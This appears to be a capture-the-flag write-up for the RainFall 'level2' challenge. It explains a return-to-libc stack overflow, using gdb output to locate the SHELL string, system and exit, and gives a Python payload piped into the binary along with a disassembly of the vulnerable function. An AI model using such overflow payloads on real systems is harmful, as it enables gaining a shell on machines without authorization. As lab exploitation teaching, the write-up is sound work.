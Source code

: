 ## Find SHELL env var

```sh
(gdb) x/s *((char **)environ)
0xbffff915:      "SHELL=/bin/bash"
(gdb) x/s *((char **)environ) + 6
0xbffff91b:      "/bin/bash"
```

We saw our offset to the return address was 80 so EBP is 80 - 4 (the size of EBP) = 76

## Return to libc

We will use the [return-to-libc method](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf) so we are going to set the address of system in EBP, and his parameter after the return address area (the dedcated space for parameters)

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

```sh
level2@RainFall:~$ python -c "print('H' * 80 + '\x60\xb0\xe6\xb7' + 'A' * 4 + '\x1b\xf9\xff\xbf')" | ./level2
(0xb7e6b060)
```

```sh
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

```sh
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
=> 0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
---Type <return> to continue, or q <return> to quit---
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret
   ```
   > ret = 0x0804853e

